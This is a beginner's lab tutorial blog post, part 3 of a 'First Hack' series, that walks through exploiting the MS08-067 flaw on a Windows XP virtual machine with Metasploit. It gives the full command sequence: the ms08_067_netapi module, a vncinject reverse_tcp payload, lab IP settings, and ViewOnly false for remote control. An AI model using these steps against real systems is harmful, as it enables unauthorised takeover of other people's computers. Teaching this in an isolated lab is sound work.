```yaml
---
layout: post
title:  "First Hack Part 3 (Exploiting The Vulnerability)"
date:   2018-04-16 14:56:03 -0400
categories: jekyll update
---
```


<br>[Part 1 (Installing The Virtual Network)][part-1]
<br>[Part 2 (Searching for Targets and their Weaknesses)][part-2]

Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise, you would be committing an illegal act.

Now that we have successfully obtained a list of all the vulnerabilities, we are going to use one of the bigger ones. You could use more than one of the critical vulnerabilities in Nessus but we are going to use MS08_067

<b>Finding The Commands To Hack Windows XP

Once we have the codes, we need to look them up in the "Rapid 7" database. Rapid 7 is a company that develops a cool called Metasploit, which is the tool we use to actually hack another computer. We are going to use a tool called a VNC (Virtual Network Computing). This is a window that contains the remote operating system. It allows mouse and keyboard controls, much like the virtual machine you are using now.

First, go to the [Rapid7 Vulnerabilities & Exploit Database][Rapid7-DB]

Type in the vulnerability code we want to use. In our particular case, it is MS08_067

In the drop-down menu to the right of the search field, choose "Metasploit Modules"

Look under "Module Name" and identify the code exploit/windows/smb/ms08_067_netapi. We will use this later

<b>Loading Exploits and Payloads</b>
<br>[Offensive Security - Metasploit Commands][Metasploit-Commands]
<br>[Offensive Security - Using Exploits][Using-Exploits]

Open terminal and type in the following command

{% highlight ruby %}
msfconsole
{% endhighlight %}

Wait for it to load then type in the following

{% highlight ruby %}
use exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

Next we will need to use a payload. A payload is basic software that takes advantage of the exploit. So type

{% highlight ruby %}
set PAYLOAD windows/vncinject/reverse_tcp
{% endhighlight %}

<b>Setting Up The Attack

You will need to load a list of settings before running the command to hack the Windows XP computer. We can do this by typing

{% highlight ruby %}
show options
#you can use show options for any exploit/payload you end up choosing in the future.
{% endhighlight %}

You should get something like the image below

![image tooltip](/blog/images/ms08_067/msfconsole_show_options1.JPG)

You may notice that a few of the fields are empty. RHOST and LHOST. RHOST is the remote host. The IP of the target computer. LHOST is the local host. Your computer.

You may not know your own IP. So open a new terminal tab with Ctrl+Shift+T and type

{% highlight ruby %}
ifconfig
{% endhighlight %}

You should see something like this. I highlighted the IP in yellow.

![image tooltip](/blog/images/ms08_067/ifconfig.JPG)

Type in the following, but replace the RHOST IP with the Windows IP you found earlier and LHOST of the Kali IP.

{% highlight ruby %}
set RHOST 192.168.1.244
{% endhighlight %}

{% highlight ruby %}
set LHOST 192.168.1.48
{% endhighlight %}

We have everything we need right? Just one more setting. This will allow us to control the computer rather than simply spy on it.

{% highlight ruby %}
set ViewOnly false
{% endhighlight %}

<b>Hack It!

Now run show options again and you should have something like this.

![image tooltip](/blog/images/ms08_067/msfconsole_show_options2.JPG)

Run the following command.

{% highlight ruby %}
exploit
{% endhighlight %}

Congratulations. You did it! You can now do whatever you like to the target computer.

![image tooltip](/blog/images/ms08_067/owned.JPG)

<br>[Homepage][homepage]

[part-1]: MS08_067_Part_1.html
[part-2]: MS08_067_Part_2.html
[homepage]: https://danielloosec.github.io/blog/
[Rapid7-DB]: https://www.rapid7.com/db
[Using-Exploits]: https://www.offensive-security.com/metasploit-unleashed/exploits/
[Metasploit-Commands]: https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

